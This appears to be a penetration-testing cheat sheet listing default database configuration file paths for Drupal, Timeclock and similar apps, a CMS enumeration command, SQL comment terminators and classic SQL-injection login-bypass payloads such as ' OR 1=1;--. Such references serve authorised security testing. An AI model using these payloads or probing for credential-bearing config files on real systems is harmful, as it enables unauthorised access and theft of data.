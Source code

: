 
#### DeV!Lz ClanPortal
```
DeV!L`z ClanPortal default database configuration filename
<web-app-path>/inc/mysql.php
```

#### Drupal

Drupal default database configuration filename
```
<web-app-path>/sites/default/settings.php
```

Scanning Drupal for plugins and versions
```
/pentest/enumeration/web/cms-explorer  -url <target-and-drupal-path> -type drupal
```
#### PHPMyAdmin
```
/phpmyadmin/changelog.php
```
#### Timeclock
Timeclock default database configuration filename
```
<web-app-path>/db.php
```


Default files to check for additional paths
```
lt;target-webpath>/robots.txt
lt;target-webpath>/style.css
```

------------------------------------------------------------------------------------------------------------------
#### SQL Terminators/Comments
MSSQL and MySQL:
```
<sql injected command>;--
```
MySQL:
```
<sql injected command>;#
```


#### Login Pages Basic SQL injection
MS IIS
```
' OR '1=1';--

```
MySQL
```
'OR 1=1;--
'OR 1=1;#
'OR 1=1 LIMIT 1;#
```
